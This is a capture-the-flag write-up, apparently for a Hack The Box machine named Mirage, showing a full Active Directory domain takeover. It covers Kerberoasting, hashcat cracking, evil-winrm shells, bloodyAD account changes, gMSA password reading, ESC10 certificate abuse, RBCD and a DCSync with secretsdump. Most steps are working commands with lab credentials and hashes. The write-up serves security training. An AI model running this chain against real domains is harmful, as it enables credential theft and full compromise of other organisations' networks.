

---

## 🎩 Kerberoasting Attack via `Impacket` (MITRE ATT&CK: Credential Access)

Since we have valid credentials and found a kerberoastable user `nathan.aadam`.  
Lets try to obtaine a valid `Ticket-Granting-Ticket (TGT)` from the `Key Distribution Center (KDC)` using **Kerberoasting** from Impacket `GetUserSPNs` tool.

```bash
impacket-GetUserSPNs 'mirage.htb/david.jjackson' -dc-host dc01.mirage.htb -k -request
```



> Captured `TGS` hash via Kerberoasting.

:::tip
If you get the error: `[-] Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)`
Enter this command `sudo ntpdate dc01.mirage.htb` first.
:::

It also dumnped a `Ticket Granting Service (TGS)` hash for the user, which we save for offline cracking.

---

## 🔓 Cracking the `TGS` with Hashcat (MITRE ATT&CK: Credential Access)

The hash type for `SPN-based TGS` is `-m 13100` **(Kerberos 5 TGS-REP etype 23)**.  

```bash
hashcat -m 13100 tgs-nathan-aadam.hash /usr/share/wordlists/rockyou.txt --force
```

> As password list we can use `rockyou.txt` which comes pre installed on kali linux.

:::tip
If you still have the archive, use `sudo gunzip /usr/share/wordlists/rockyou.txt.gz`
:::

```bash
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 13100 (Kerberos 5, etype 23, TGS-REP)
Hash.Target......: $krb5tgs$23$*nathan.aadam$MIRAGE.HTB$mirage.htb/nat...a1ec74
Time.Started.....: Sat Jul 26 03:44:37 2025, (6 secs)
Time.Estimated...: Sat Jul 26 03:44:43 2025, (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  2129.2 kH/s (1.61ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 12472320/14344385 (86.95%)
Rejected.........: 0/12472320 (0.00%)
Restore.Point....: 12468224/14344385 (86.92%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: 3gards -> 3aemalemalo
Hardware.Mon.#1..: Util: 62%

Started: Sat Jul 26 03:44:13 2025
```

> We have valid credentials for the user!

### 🧾 Show the cracked value from `Hashcat`

```bash
hashcat -m 13100 tgs-nathan-aadam.hash /usr/share/wordlists/rockyou.txt --show
```

---

## 🎟️ Getting a `Ticket-Granting-Ticket` with `impacket-getTGT` (MITRE ATT&CK: Credential Access)

```bash
impacket-getTGT mirage.htb/nathan.aadam:REDACTED
```

```bash
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in nathan.aadam.ccache
```

> A `.ccache` file was saved:

We can now exported the ticket and use it:

```bash
export KRB5CCNAME=nathan.aadam.ccache
```

---

## 🖥️ Time to get a WinRM shell ([`Port 5985`](https://www.speedguide.net/port.php?port=5985)) (MITRE ATT&CK: Lateral Movement)

> `rustscan` told us `5985/tcp  open  http  syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)`

Now, we can authenticate using **Kerberos** *(no password prompt needed)* since we got a valid `TGT` and spawn a `WinRM shell`.

### 🧰 `evil-winrm` to spawn the shell

```bash
evil-winrm -i dc01.mirage.htb -r mirage.htb
```



> We successfully have a shell connection to the machine!

---

## 🐚 Command & Control via WinRM (MITRE ATT&CK: Command and Control)

### 🍎 Get the low hanging fruits

```powershell
cd C:\Users\nathan.aadam\Desktop
ls
```

**Result:**

```powershell
    Directory: C:\Users\nathan.aadam\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          7/4/2025   1:01 PM           2312 Microsoft Edge.lnk
-ar---         7/25/2025  12:55 AM             34 user.txt
```

> Get the info from `user.txt` with `cat user.txt`

🏴 **User flag obtained.**

---

## 🚀 Privilege Escalation (PE) to root `Administrator` (MITRE ATT&CK: Privilege Escalation)

Lets upload via `Evil-WinRM` the `winPEASx64.exe`

```powershell
upload winPEASx64.exe "C:\Users\nathan.aadam\Desktop\winpeas.exe"
```

**Result:**

```powershell
Data: 13541376 bytes of 13541376 bytes copied
                                        
Info: Upload successful!
```

### 🧮 Run `winpeas.exe`

After the successful upload, lets check for some findings.

```powershell
.\winpeas.exe
```



> Checkpot!

### 🕸️ Bloody BloodHound



> The user `mark.bbond` can change the password of `javier.mmarshall`.

### 🚫 Problem - The user is `disabled`



But we want this user, because he has the rights to `ReadGMSAPassword` of the `MIRAGE-SERVICE$@MIRAGE.HTB`.


---

## 🛠️ Lets prepare the user `javier.mmarshall` (MITRE ATT&CK: Credential Access / Defense Evasion)

Since we can make changes on the user, lets get it prepared.

```bash
bloodyAD --host dc01.mirage.htb -d mirage.htb -u 'mark.bbond' -p '1day@atime' -k set object javier.mmarshall userAccountControl -v 512
bloodyAD --host dc01.mirage.htb -d mirage.htb -u 'mark.bbond' -p '1day@atime' -k set object javier.mmarshall logonHours
bloodyAD --host dc01.mirage.htb -d mirage.htb -u 'mark.bbond' -p '1day@atime' -k set password javier.mmarshall 'Password123@'
```

### 🧬 Lets get the hash from `Mirage-Service$`

```bash
bloodyAD -k --host dc01.mirage.htb -d 'mirage.htb' -u 'javier.mmarshall' -p 'Password123@' get object 'Mirage-Service$' --attr msDS-ManagedPassword
```



### 🎟️ Lets get a `TGT` for the computer account

```bash
impacket-getTGT mirage.htb/Mirage-Service\$ -hashes :305806d84f7c1be93a07aaf40f0c7866
```

**Result:**

```bash
[*] Saving ticket in Mirage-Service$.ccache
```

> Export the `TGT` with the command `export KRB5CCNAME=Mirage-Service$.ccache`

---

## 🧩 Enumerate `Schannel` (MITRE ATT&CK: Privilege Escalation)

We can look if the `CertificateMappingMethods` includes the **`UPN-only bi (0x4)`**, **allowing SChannel** authentication based purely on the certificate `UPN (User Principal Name)`, ignoring the `SID`.

```powershell
reg query 'HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\SCHANNEL'
```

> Inside the `Evil-WinRM` session check for the registry key.



> `CertificateMappingMethods` includes the **UPN‑only bit (0x4)**.

We can weaponize and abuse this with `ESC10`.

:::info
**What is `ESC10`?**

- Shorthand for `Weak Certificate Mapping`, is a post‑exploitation escalation technique in **Active Directory Certificate Services (AD CS)** that allows an attacker to authenticate as virtually any domain account—even privileged ones—without knowing the actual password.

**How does it work?**

1. Weak Mapping Enforcement (`StrongCertificateBindingEnforcement 0x0 or 0x1` / `CertificateMappingMethods 0x4` ) | **command**: `reg query 'HKLM\SYSTEM\CurrentControlSet\Services\Kdc'` / `reg query 'HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\SCHANNEL'`
2. GenericWrite Access to Another Account (The attacker must have GenericWrite permission on a lower-privileged account (Account A). They can change its UPN to impersonate a target (Account B).)
3. Issue and Use a Certificate for Client Authentication (Using Certipy or Certify tools, the attacker requests a client-auth certificate for Account A (with its UPN spoofed to Account B).)
4. Optional: Machine Account / Property Attack (SChannel)*

*In some scenarios, the attacker targets a machine account (e.g. DC$) instead—changing the UPN or dNSHostName as needed, and then authenticating over SChannel (e.g. LDAPS) to perform RBCD or other attacks
:::

---

## 🧠 Full Exploitation Chain — `ESC10` > `RBCD` > `DCSync` > `Administrator Shell` (MITRE ATT&CK: Credential Access | Privilege Escalation | Lateral Movement | Defense Evasion)

### 🏷️ 1. `UPN` Manipulation

🎯 **Objective**  
Modify a **writable user account** (`mark.bbond`) to spoof the `UPN` of a **machine account** (`dc01$`) using a forged `TGT` from `Mirage-Service$`.

Use the exported `Ticket-Granting-Ticket (TGT)` from **Mirage-Service$**.

```bash
export KRB5CCNAME=Mirage-Service$.ccache
```



> We can confirm everything is set to manipulate the `UPN`, because of **weak certificate mapping (Schannel-based)**

```bash
certipy-ad account update \
   -user 'mark.bbond' \
   -upn 'dc01$@mirage.htb' \
   -u 'mirage-service$@mirage.htb' \
   -k -no-pass \
   -dc-ip 10.10.11.78 \
   -target dc01.mirage.htb
```



> ✅ UPN spoofed > `mark.bbond` now maps to `dc01$`.

### 🧾 2. Certificate Enrollment

🎯 **Objective**  
Request a certificate using the **spoofed** `UPN` (`dc01$@mirage.htb`) to **impersonate the domain controller**.

```bash
impacket-getTGT mirage.htb/mark.bbond:'1day@atime'
export KRB5CCNAME=mark.bbond.ccache
certipy-ad req \
  -u 'mark.bbond@mirage.htb' \
  -k -no-pass \
  -dc-ip 10.10.11.78 \
  -target 'dc01.mirage.htb' \
  -ca 'mirage-DC01-CA' \
  -template 'User'
```



> ✅ Certificate written to `dc01.pfx` — ready for impersonation.

### 🔄 3. UPN Reversion

🎯 Restore the original `UPN` of `mark.bbond`.

```bash
export KRB5CCNAME=Mirage-Service\$.ccache
certipy-ad account update \
  -user 'mark.bbond' \
  -upn 'mark.bbond@mirage.htb' \
  -u 'mirage-service$@mirage.htb' \
  -k -no-pass \
  -dc-ip 10.10.11.78 \
  -target dc01.mirage.htb
```



### 🔓 4. `Schannel` Authentication & Impersonation

🎯 Authenticate with the **spoofed certificate** to gain a `privileged LDAP shell`.

```bash
certipy-ad auth -pfx dc01.pfx -dc-ip 10.10.11.78 -ldap-shell
```

> ✅ You are now `dc01$` — as far as Active Directory is concerned.

### 🧰 5. `LDAP` Shell access > Enable `RBCD`

```bash
set_rbcd dc01$ Mirage-Service$
```



> By these ways we have allowed **Resource Based Constraint Delegation** attack to `Mirage-Service$`.

---

## 🎯 Further Exploitation: `DCSync Attack` (MITRE ATT&CK: Credential Access)

🎯 Abuse `RBCD` and the `cifs` **SPN** to extract the **NTDS database** from the `DC01`.

```bash
impacket-getST -spn 'cifs/DC01.mirage.htb' -impersonate 'dc01$' -dc-ip 10.10.11.78  'mirage.htb/Mirage-Service$' -hashes :305806d84f7c1be93a07aaf40f0c7866
```



```bash
export KRB5CCNAME='dc01$@cifs_DC01.mirage.htb@MIRAGE.HTB.ccache'
```

```bash
impacket-secretsdump -k -no-pass -dc-ip 10.10.11.78 dc01.mirage.htb
```

**Result:**

```bash
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[-] Policy SPN target name validation might be restricting full DRSUAPI dump. Try -just-dc-user
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
[*] Kerberos keys grabbed
[*] Cleaning up...
```

> ✅ Full dump of `NTDS.DIT` — including `krbtgt`, `Administrator`, and **all domain secrets**.

---

## 👑 Get the `Administrator` Shell (MITRE ATT&CK: Credential Access / Lateral Movement / Defense Evasion)

```bash
impacket-getTGT mirage.htb/administrator -hashes aad3b435b51404eeaad3b435b51404ee:7be6d4f3c2b9c0e3560f5a29eeb1afb3
```

```bash
export KRB5CCNAME=administrator.ccache
```

```bash
evil-winrm -i dc01.mirage.htb -r mirage.htb
```

> ✅ `WinRM shell` as `Administrator` on `dc01.mirage.htb`

### 🏁 Final Step: Capture the `root.txt` Flag

```bash
cd ..
cd Desktop
cat root.txt
```

> 🎯 Objective Complete: **Full Domain Takeover**
